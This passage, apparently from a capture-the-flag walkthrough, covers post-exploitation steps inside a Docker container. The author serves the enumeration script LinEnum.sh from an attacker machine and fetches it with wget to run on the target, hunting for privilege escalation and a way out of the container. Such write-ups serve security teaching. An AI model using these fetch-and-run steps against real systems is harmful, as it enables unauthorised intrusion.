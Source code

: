 The shell looks more stable now, now let's focus on the target machine. It's pretty suspicious that we directly get root privilege on this machine. So i decide to identify if it is a container or actual server by listing all files including hidden files on root path with extensive information using following command.

```
ls / -al
```

<figure><img src=".gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

## Int. Enumerate & Privilege Escalation

Seems like we're in docker container that running in the server. Now we have to try to escape. We can use **LinEnum.sh** to enumerate for potential privilege escalation to escape this docker. I downloaded LinEnum.sh on my machine, hosted using python http server then download it from my machine to victim machine.

```
python3 -m http.server 8000 # Execute on Attacker machine, make sure you're in directory contains LinEnum.sh
wget http://10.10.16.103:8000/LinEnum.sh # Execute on Target machine
chmod +x LinEnum.sh # Execute on Target machine
./LinEnum.sh # Execute on Target Machine
```
